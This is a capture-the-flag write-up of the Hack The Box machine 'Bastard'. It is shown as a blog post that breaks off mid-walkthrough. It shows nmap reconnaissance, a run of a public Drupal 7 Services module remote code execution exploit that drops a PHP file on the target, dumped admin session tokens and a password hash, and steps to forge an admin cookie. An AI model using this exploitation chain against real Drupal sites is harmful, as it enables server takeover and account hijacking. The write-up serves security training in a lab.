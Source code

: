 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce) or you can copy it from my [Pastebin](https://pastebin.com/VF0UFu3g)
<br>Now after you copy the exploit from the blog then edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
<br>Now before you run the exploit make sure the main drupal login page is open in your browser or it will show you the error **Failed to login with fake password** or if you still see this error even after opening the login page in browser then revert the machine and try again.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># php exploit.php 
<br>Stored session information in session.json
<br>Stored user information in user.json
<br>Cache contains 7 entries
<br>File written: <font color="53E100">http://10.10.10.9/dixuSOspsOUU.php</font>
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat session.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;"session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"session_id": "NR8MTD7eFRPPmFJGnxGlgJGHIo00ltSWMRV_TO1Iz0k",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"token": "Kkq8taVZ9H5AOpE6kti6qyA2xkjk110_-wOFCKgvGPY"
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat user.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;"uid": "1",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"name": "admin",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"mail": "drupal@hackthebox.gr",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"theme": "",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"created": "1489920428",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"access": "1492102672",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"login": 1513922853,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"status": "1",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"timezone": "Europe\/Athens",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"language": "",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"picture": null,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"init": "drupal@hackthebox.gr",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"data": false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"roles": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"2": "authenticated user",
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"3": "administrator"
<br>&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;"rdf_mapping": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"rdftype": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"sioc:UserAccount"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"name": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"predicates": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"foaf:name"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;]
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"homepage": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"predicates": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"foaf:page"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"type": "rel"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;"pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>
<p>If you get any error like **PHP Fatal error: Uncaught Error: Call to undefine function curl_init()** possibilities are you don't have php-curl installed in your machine so to solve this you just need to downlaod it and restart the apache server and then run the exploit again.
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># apt-get install php-curl
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># systemctl restart apache2</p>
<br>Now after the exploit completed sucessfully it will give use a link where the file has been written and created a new user in drupal and 2 new files (session.json) and (user.json) in your current directory and if you look inside the session.json file you will see (session_ID, name and token) and we will edit and use this to gain admin access on the web.
<br>Now we need to edit this file session.json
<br>The session file is in format:-
<br>-Session_name:<font color="BB69EC">abc</font>
<br>-Session_id:<font color="BB69EC">def</font>
<br>-Token:<font color="BB69EC">xyz</font>
<br>Now we need to edit this like this
<br>-<font color="BB69EC">abc=def;token=xyz</font>
<br>It will look something like this
<font size="1">
<div style="height:120px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat session.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">"SESSd873f26fc11f2b7e6e4aa0f6fce59913=NR8MTD7eFRPPmFJGnxGlgJGHIo00ltSWMRV_TO1Iz0k;token=Kkq8taVZ9H5AOpE6kti6qyA2xkjk110_-wOFCKgvGPY"</font>
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>This is the cookie which we will use to get admin access, Now before we proceed make sure to open 3 links :
* The main drupal login page :- http://10.10.10.9/
* The admin pannel which will show 403 access denied for now :- http://10.10.10.9/admin
* And the link whihc the php exploit gave us :- http://10.10.10.9/dixuSOspsOUU.php
